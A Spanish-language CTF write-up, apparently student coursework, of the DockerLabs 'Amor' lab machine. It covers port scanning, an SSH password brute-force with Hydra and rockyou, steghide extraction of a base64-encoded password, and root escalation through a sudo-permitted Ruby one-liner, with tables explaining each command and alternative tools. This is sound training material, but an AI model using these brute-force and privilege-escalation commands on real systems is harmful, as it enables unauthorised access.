


# 🗃️ Carpeta Mayor Sergio Baudin Cruz

## 1. CTF Amor 🧑‍💻
Para el taller desarrollado se utilizo el contenedor **AMOR** de DockerLabs, el cual fue desarrollado por Romabri en el año 2024.



A continuacion se explicara el procedimiento del CTF, con la finalidad de recopilar y explicar las diferentes herramientas utilizadas en el desarrollo del mismo.

### 🕵️‍♂️ Inicio del CTF
Lo primero es ejecutar el contenedor **AMOR** para poder tener acceso mediante una conexion de red virtual, atraves de Docker.
```bash
./auto_deploy.sh amor.tar 
```


Con la IP que tenemos, se procede a realizar un escaneo de puertos y servicios para lo que utilizamos NMAP
```bash
nmap -p- -sCV --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 
```


Con los dos puertos abiertos 80 y 22 se puede realizar una verificaciòn a los servicios, se procede a usar Gobuster con el fin de verificar el servicio HTTP
```bash
gobuster dir -u http://172.17.0.3/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```


No se logra obtener nada relevante, el siguiente paso es realizar una verificacion OSINT en la pagina que debe desplegar el servicio HTTP, se procede a navegar en la URL de la IP `http://172.17.0.3/`:


Pese a que la informacion de la pagina es muy plana y al parecer netamente informativa, se obtienen 2 nombres, que probablemente esten asociados con informacion de la maquina, por lo tanto se procede a realizar un ataque de fuerza bruta, al servicio SSH activo en el puerto 22.
```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 10 
```


Con lo anterior se logra obtener credenciales, al parecer vigentes, en la maquina objetivo, solo resta verificar conexion mediante SSH.
```bash
ssh carlota@172.17.0.3 
```


Con acceso por medio de **SSH**, se logra realizar una busqueda de que archivos pueden ser relevantes para el desarrollo del CTF, por lo que se realiza un barrido de las carpetas del usuario **carlota**, como se observa en la imagen anterior, encontrando de interes un archivo que aparentemente es una imagen:


Se debe verificar la imagen con detenimiento, para esto se tiene que extraer de la maquina y pasarla de forma local a nuestro equipo, por eso desde la maquina atacante se usa **SCP**:
```bash
 scp carlota@172.17.0.3:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/XXuserXX/Documents/amor
```


Ya con la imagen en local se verifica que realmente es un archivo de imagen y se sospecha que puede tener informacion oculta, por lo que se utiliza **Steghide**, con la finalidad de verificar si se uso alguna tecnica de esteganografia, para ocultar un mensaje:
```bash
 steghide --extract -sf imagen.jpg
```


Efectivamente se trataba de un mensaje cifrado mediante esteganografia, se logro obtener el archvo **secret.txt** el cual contiene la siguente cadena de caracteres: 
```text
 ZXNsYWNhc2FkZXBpbnlwb24=
```

Se verifica con **Base 64** y se encuentra lo siguiente:
```bash
 echo "ZXNsYWNhc2FkZXBpbnlwb24=" &#124; base64 -d; echo
```


Se logra obtener la contraseña al parecer de otro usuario legitimo en el sistema, para este caso realizamos el intento con **oscar**:


De igual forma que nuestro primer usuario, se realiza una busqueda en las diferentes carpetas del usuario, se verifican permisos vigentes, encontrando algo interesante, **oscar** tiene permisos para ejecutar **/usr/bin/ruby**, sin necesidad de contraseña, lo cual podria llegar a escalar los privilegios del usuario actual, se ejecuta el comando y se verifica:


De esta forma se cumpliria con el escalamiento de privilegios, teniendo acceso a la maquina desde el usuario de root, pudiendo realizar cualquier tipo de accion en la maquina.

### 📑 Detalle de comandos y herramientas usadas en el CTF
| Herramienta  | Sintaxis usada                                                                                       | Explicación de cada parámetro                                                                                                                                                                                                                                                                                                                                                                             | ¿Cuándo/por qué usarla?                                                                                                                                                                               | Fuente                                                                                                                                                   |
| ------------ | ---------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Nmap**     | `nmap -p- -sCV --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3`                                    | `-p-` : escanea todos los puertos TCP 1-65535.<br>`-sC` : ejecuta los scripts NSE por defecto.<br>`-sV` : detección de versión de servicios.<br>`--open` : muestra solo puertos abiertos.<br>`-sS` : SYN scan (semi-abierto).<br>`--min-rate 5000` : envía ≥5 000 paquetes/s.<br>`-vvv` : verbosidad muy alta.<br>`-n` : sin resolución DNS.<br>`-Pn` : omite ping discovery.<br>`172.17.0.3` : objetivo. | Escaneo rápido, sigiloso y completo de todos los puertos para descubrir servicios, versiones y posibles vulnerabilidades cuando el host puede filtrar ICMP o cuando necesitas velocidad en red local. | ([Nmap](https://nmap.org/book/performance.html)) |
| **Gobuster** | `gobuster dir -u http://172.17.0.3/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` | `dir` : modo de fuerza bruta de directorios/archivos.<br>`-u` : URL objetivo (`http://172.17.0.3/`).<br>`-w` : wordlist con nombres a probar (`directory-list-2.3-medium.txt`).                                                                                                                                                                                                                           | Enumerar rutas ocultas (admin, backups, APIs) en un sitio web para ampliar superficie de ataque antes de pruebas de vulnerabilidad o explotación.                                                     | ([GitHub](https://github.com/OJ/gobuster))                                                                                        |
| **Hydra**    | `hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.3 -t 10`                        | `-l carlota` : usuario fijo a probar.<br>`-P` : wordlist de contraseñas (`rockyou.txt`).<br>`ssh://172.17.0.3` : servicio/protocolo y host objetivo.<br>`-t 10` : 10 hilos concurrentes.                                                                                                                                                                                                                  | Auditoría de contraseñas por fuerza bruta en SSH para evaluar la robustez de credenciales o la eficacia de políticas de bloqueo (solo con autorización).                                              | ([Kali Linux](https://www.kali.org/tools/hydra/))                                                                                 |
| **scp**      | `scp carlota@172.17.0.3:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/join/`               | `carlota@172.17.0.3:` : usuario y host remotos.<br>`/home/carlota/Desktop/.../imagen.jpg` : ruta del archivo remoto.<br>`/home/join/` : carpeta destino local.<br>Usa SSH para cifrado y autenticación.                                                                                                                                                                                                   | Transferir de forma segura (cifrada) archivos puntuales entre equipos Linux/Unix; ideal para copias rápidas sin montar sistemas de archivos remotos.                                                  | ([man.openbsd.org](https://man.openbsd.org/scp.1))                                                                                |
| **SSH**                    | `ssh carlota@172.17.0.3`                                 | `ssh` : cliente Secure Shell.<br>`carlota@` : nombre de la cuenta remota.<br>`172.17.0.3` : IP del host destino.                                                                                   | Conectarse de forma cifrada a un servidor para administrar el sistema o encadenar túneles/port-forwarding.                                        | ([Linuxize](https://linuxize.com/post/ssh-command-in-linux/))                                                                                            |                        |
| **file**                   | `file imagen.jpg`                                        | `file` : determina el tipo real de un archivo mediante firmas y “magic numbers”.<br>`imagen.jpg` : objeto a analizar.                                                                              | Verificar si un archivo es realmente la extensión que dice ser, detectar binarios, scripts, imágenes, etc.                                        | ([Linux Documentation](https://linux.die.net/man/1/file))                                                                                 |                        |
| **Steghide**               | `steghide --extract -sf imagen.jpg`                      | `--extract` : modo extracción de datos ocultos.<br>`-sf` `imagen.jpg` : especifica el **ste­go­file** (imagen portadora).                                                                          | Recuperar mensajes, claves o ficheros embebidos en imágenes/audio mediante esteganografía.                                                        | ([OSINT Team](https://osintteam.blog/using-steghide-for-hiding-and-extracting-data-213a5bd03123))                                                                                          |                        |
| **base64**                 | `echo "ZXNsYWNhc2FkZXBpbnlwb24=" &#124; base64 -d; echo` | `echo "…"` : imprime la cadena codificada.<br>\`` : pasa el resultado al siguiente comando.<br>`base64 -d` : decodifica Base64 a texto binario/ASCII.<br>`; echo\` : añade salto de línea limpio. | Decodificar cadenas Base64 rápidamente en terminal (por ejemplo, credenciales, payloads o texto ofuscado). | ([Morgan Cugerone](https://morgan.cugerone.com/blog/quick-tip-encode-and-decode-base64-string-from-command-line/)) |
| **su**                     | `su oscar`                                               | `su` : *substitute/switch user*.<br>`oscar` : usuario al que se cambiará la sesión (si se omite, será *root*).                                                                                     | Adoptar la identidad de otro usuario para probar permisos, realizar tareas administrativas o depurar scripts.                                     | ([Global IT Services](https://phoenixnap.com/kb/su-command-linux-examples))                                                                    |                        |
| **sudo -l**                | `sudo -l`                                                | `sudo` : ejecuta comandos con privilegios elevados.<br>`-l` (*list*) : muestra los comandos permitidos/prohibidos para el usuario en el host actual.                                               | Enumeración de privilegios (Linux privesc): descubrir a qué binarios o rutas se puede acceder con sudo.                                           | ([GeeksforGeeks](https://www.geeksforgeeks.org/sudo-command-in-linux-with-examples/))                                                                                       |                        |
| **sudo + Ruby** | `sudo /usr/bin/ruby -e 'exec "/bin/bash"'`               | `sudo` : eleva a root.<br>`/usr/bin/ruby` : intérprete Ruby autorizado por sudoers.<br>`-e` : evalúa código inline.<br>`exec "/bin/bash"` : reemplaza el proceso Ruby por un shell Bash con UID 0. | Privilege-escalation típico cuando *ruby* está permitido en sudoers; genera una shell raíz inmediata.                                             | ([Medium](https://medium.com/%40ibm_ptc_security/linux-based-privilege-escalation-techniques-1e9b83269a75))                                                                                              |                        |
| **/usr/bin/ruby**          | *(ruta binaria)*                                         | Intérprete oficial de Ruby instalado por el sistema (`apt`, `yum`, etc.); ejecuta scripts `.rb`, gemas y, si se usa con sudo, puede invocar otros binarios con privilegios.                        | Desarrollo en Ruby, automatización de tareas o, en auditorías, comprobar si está en sudoers para procedimiento de escalar privilegios.                              | ([ThoughtCo](https://www.thoughtco.com/instal-ruby-on-linux-2908370))                                                                                           |                        |
| **whoami**                 | `whoami`                                                 | Sin opciones: imprime el nombre de usuario **efectivo** en la sesión actual.                                                                                                                       | Confirmar rápidamente la identidad del usuario desde donde se tiene acceso a una sesion o equipo, validar cuando se escalan privilegios.                                             | ([Global IT Services](https://phoenixnap.com/kb/whoami-linux))                                                                   |                        |


### 📑 Alternativas de comandos y herramientas usadas en el CTF
| Herramienta principal | Herramienta (alternativa) | Sintaxis-ejemplo                                                 | Función / ¿cuándo usarla?                                                                                                                        | Fuente                      |
| --------------------- | ------------------------- | ---------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ | --------------------------- |
| **Nmap**              | **Masscan**               | `masscan -p1-65535 172.17.0.3 --rate 10000`                      | Port-scanner “Internet-scale”; prioriza **velocidad bruta** (millones de pps) para mapear rangos enormes, sacrificando detección profunda. | ([GitHub](https://github.com/robertdavidgraham/masscan))               |
| Nmap                  | **RustScan**              | `rustscan -a 172.17.0.3 -- -sV`                                  | Escaneo ultrarrápido escrito en Rust; detecta puertos y luego encadena Nmap para fingerprinting, combinando rapidez y detalle.                   | ([GeeksforGeeks](https://www.geeksforgeeks.org/linux-unix/rustscan-faster-nmap-scanning-with-rust/))        |
| Nmap                  | **Unicornscan**           | `unicornscan -mT -Iv -r 1000 172.17.0.3:a`                       | Escáner asíncrono/estadístico; útil para análisis de red a gran escala o evasión de IDS con patrones de tráfico personalizables.                 | ([Kali Linux](https://www.kali.org/tools/unicornscan))           |
| **Gobuster**          | **dirsearch**             | `dirsearch -u http://172.17.0.3 -w wordlist.txt -t 50`           | Fuzzing de rutas/archivos con control fino de hilos, recursividad y salidas JSON/HTML; buena para auditorías web automatizadas.                  | ([GeeksforGeeks](https://www.geeksforgeeks.org/linux-unix/dirsearch-go-implementation-of-dirsearch/))        |
| Gobuster              | **ffuf**                  | `ffuf -w paths.txt -u https://target/FUZZ -mc 200`               | Fuzzer web en Go; soporta fuzzing de cabeceras, parámetros y vhosts, con filtros de tamaño/códigos; muy rápido y scriptable.                     | ([GitHub](https://github.com/ffuf/ffuf))               |
| Gobuster              | **feroxbuster**           | `feroxbuster -u http://172.17.0.3 -w list.txt -t 40`             | Descubrimiento recursivo de contenidos (dirs, ficheros) con pausa/reanudación y UI “progress bar”; ideal para pentests amplios.                  | ([GitHub](https://github.com/epi052/feroxbuster))               |
| **Hydra**             | **Medusa**                | `medusa -u carlota -P rockyou.txt -h 172.17.0.3 -M ssh -T 10`    | Fuerza bruta multi-hilo y multi-protocolo; similar a Hydra pero con **reanudación** y alta paralelización por defecto.                           | ([Kali Linux](https://www.kali.org/tools/medusa/))           |
| Hydra                 | **Ncrack**                | `ncrack -p 22 --user carlota -P rockyou.txt 172.17.0.3`          | Proyecto de la suite Nmap; motor adaptativo que ajusta velocidad vs. fiabilidad, soporta SSH, RDP, FTP, etc.                                     | ([Nmap](https://nmap.org/ncrack/man.html))                 |
| Hydra                 | **CrackMapExec**          | `cme ssh 172.17.0.3 -u carlota -p rockyou.txt`                   | Framework ofensivo “living-off-the-land” para redes Windows/\*nix; integra escaneo, fuerza bruta y post-explotación.                             | ([StationX](https://www.stationx.net/crackmapexec-cheat-sheet/))             |
| **scp**               | **rsync**                 | `rsync -avzP carlota@172.17.0.3:/src/ /dst/`                     | Sincroniza y copia solo **deltas** con compresión y reanudación; perfecto para backups grandes o incrementales.                                  | ([DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-use-rsync-to-sync-local-and-remote-directories))        |
| scp                   | **sftp**                  | `sftp carlota@172.17.0.3`  `get /src/imagen.jpg`                | Sesión interactiva sobre SSH para subir/bajar archivos y gestionar permisos; útil cuando se requiere navegación remota.                          | ([DigitalOcean](https://www.digitalocean.com/community/tutorials/how-to-use-sftp-to-securely-transfer-files-with-a-remote-server))        |
| scp                   | **rclone**                | `rclone copy remote:/path /local/ -P`                            | Sincronizador multi-backend (incluye SFTP y clouds) con verificación de hash y opciones avanzadas de filtrado.                                   | ([Rclone](https://rclone.org/commands/rclone_copy/))              |
| **Steghide**          | **Stegseek**              | `stegseek imagen.jpg rockyou.txt`                                | Cracker de contraseñas para archivos Steghide **hasta miles de veces más rápido**, ideal en CTFs.                                                | ([Hackercool Magazine](https://www.hackercoolmagazine.com/complete-guide-to-stegseek/)) |
| Steghide              | **zsteg**                 | `zsteg imagen.png`                                               | Detecta datos ocultos (LSB, OpenStego, etc.) en PNG/BMP; muestra canales y offsets sospechosos.                                                  | ([GitHub](https://github.com/zed-0xff/zsteg))              |
| Steghide              | **Stegosuite**            | GUI; `stegosuite`  “Extract”                                    | Interfaz gráfica para insertar o extraer payloads cifrados en BMP/GIF/JPG/PNG; buena para usuarios no CLI.                                       | ([Kali Linux](https://www.kali.org/tools/stegosuite/))          |
| **file**              | **binwalk**               | `binwalk -e firmware.bin`                                        | Analiza binarios buscando cabeceras “magic” y extrae automáticamente ficheros embebidos; forense y reversing.                                    | ([Kali Linux](https://www.kali.org/tools/binwalk/))          |
| file                  | **TrID**                  | `trid archivo.bin`                                               | Identifica tipos de archivo mediante firmas extensibles entrenadas por la comunidad; útil cuando *file* falla.                                   | ([mark0.net](https://mark0.net/soft-trid-e.html))           |
| file                  | **ExifTool**              | `exiftool imagen.jpg`                                            | Muestra **metadatos** y tipo real de imágenes/doc., soporta cientos de formatos; esencial en análisis forense.                                   | ([exiftool.org](https://exiftool.org/examples.html))        |
| **base64**            | **OpenSSL**               | `echo SGVsbG8= \| openssl base64 -d`                             | Des/encodifica Base64 sin depender de GNU coreutils; presente en casi todos los sistemas con OpenSSL.                                            | ([Super User](https://superuser.com/questions/1458249/how-to-decrypt-passwords-generated-by-openssl-rand-base64-20))          |
| base64                | **certutil (Win)**        | `certutil -decode in.b64 out.bin`                                | Herramienta nativa de Windows para convertir archivos a/desde Base64; útil en entornos sin utilidades Unix.                                      | ([Microsoft Learn](https://learn.microsoft.com/en-us/windows/security/identity-protection/enterprise-certificate-pinning))     |
| base64                | **Perl MIME::Base64**     | `perl -MMIME::Base64 -ne 'print decode_base64($_)' <<< SGVsbG8=` | One-liner portable en Perl para decodificar/encodificar rápidamente dentro de scripts.                                                           | ([Stack Overflow](https://stackoverflow.com/questions/25108438/decode-encode-base64-perl))      |


### 📑 Diagrama de Flujo desarrollo CTF

